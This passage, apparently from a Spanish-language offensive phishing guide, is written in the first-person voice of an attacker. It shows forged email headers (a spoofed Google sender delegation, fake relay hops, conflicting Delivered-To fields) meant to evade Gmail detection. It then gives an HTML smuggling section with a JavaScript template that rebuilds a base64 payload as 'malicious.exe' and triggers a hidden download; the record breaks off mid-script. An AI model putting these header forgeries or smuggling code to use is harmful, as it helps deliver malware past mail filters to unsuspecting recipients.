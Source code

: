 ```email
X-Google-Sender-Delegation: c0nfigrealmail@gmail.com Trusted Sender.
```
Este header lo genera Google y es el cumpable de que aparezca que el correo ha sido enviado por mi mismo y que es confiable. Es una inyección de encabezados que trata de dar cierta entidad al correo.

```email
Received: from west.evarmactengiri.com ...
Received: from mta8132.mp2200.com ...
Received: from vmta186.85.lstrk.net ...
Received: from efianalytics.com ...
```
Uso de hops para tratar de simular la recepción del correo y evitar que el bloqueo del origen suponga la detección del phishing.

```email
List-ID: c0nfigrealmail.xt.local
```
Es un header opcional, pero si usas tu nombre de correo pues puede ayudar si no se tiene mucha idea a colarlo. Además le añade complejidad al análisis como tal. 

```email
Delivered-To: me@gmail.com
To: me@aol.com
```
El campo “Delivered-To:” se envia al comienzo, peeeeeeeero puedes tratar de confundir a Gmail (y como se demuestra conseguirlo) incluyendo diferentes referencias al envio sumándolo a los hops. <br>
Si te interesa analizar otros phishing para extraer patrones similares puedes usar el repo [`phishing_pot`](https://github.com/rf-peixoto/phishing_pot) que cuenta con miles de ejemplos de los cuales puedes obtener ideas para filtrar y emular patrones. 

## 5. HTLM Smugling
HTML Smuglig es una técnica usada para esconder ficheros en filtros de contenido mediante javascript. Este es un ejemplo de link malicioso real embebido en un phishing:

```html
<a href="https://tinyurl.com/MALICIUS_PAYLOAD" target="_blank">
```
Como hemos dicho antes existen controles por parte de tu proveedor o tu antivirus los cuales tratan los enlaces para poder clasificar el mail y reportarlo. 
Los atacantes tenemos formas de evitar estos controles, principalmente usando HTML Smugling. Con esto podemos evitar que se analice el enlace para construir la URL en el navegador en la ejecución. 
Existen multitud de ejemplos como:

```html
<html>
   <body>
      <script>
         function base64ToArrayBuffer(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array(len);
            for (var i = 0; i < len; i++) {
                bytes[i] = binary_string.charCodeAt(i); 
            } 
            return bytes.buffer;
         } 
         var file = "BASE64 FILE HERE";
         var data = base64ToArrayBuffer(file);
         var blob = new Blob([data], {type: "octet/stream"});
         var fileName = "malicious.exe";
         var a = document.createElement("a");
         document.body.appendChild(a);
         a.style = "display: none";
         var url = window.URL.createObjectURL(blob);
         a.href = url;
         a.download = fileName;
```